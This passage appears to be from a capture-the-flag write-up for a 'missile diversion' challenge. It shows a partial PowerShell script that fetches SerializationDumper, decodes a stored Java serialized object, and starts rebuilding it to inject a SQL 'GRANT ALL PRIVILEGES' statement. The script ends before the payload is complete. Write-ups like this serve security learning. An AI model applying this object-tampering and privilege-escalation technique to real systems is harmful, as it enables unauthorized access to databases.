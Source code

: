 ![image](../img/missilediversion-3.png)

## Alternate approach

All in one script (must have Java installed)

```powershell
$serializationDumperRemotePath = "https://github.com/NickstaDB/SerializationDumper/releases/download/1.13/SerializationDumper-v1.13.jar"
$serializationDumperLocalPath = "$env:TEMP\SerializationDumper-v1.13.jar"
Invoke-WebRequest -Uri $serializationDumperRemotePath -OutFile $serializationDumperLocalPath

# get original java stream object in hex:
# ; select hex(object) from satellite_query where jid=1;
$originalBinHex = 'ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B787000007400292F6F70742F536174656C6C697465517565727946696C65466F6C6465725574696C6974792E6A617661'

#region dump stream using SerializationDumper.jar
$readableDump = java -jar "$serializationDumperLocalPath" "$originalBinHex"

# create new readable file with new values for stream
$isQuery = $true
$isUpdate = $true
$string = 'GRANT ALL PRIVILEGES ON `missile_targeting_system`.`pointing_mode` TO `targeter`@`%`'

$hex = ""
```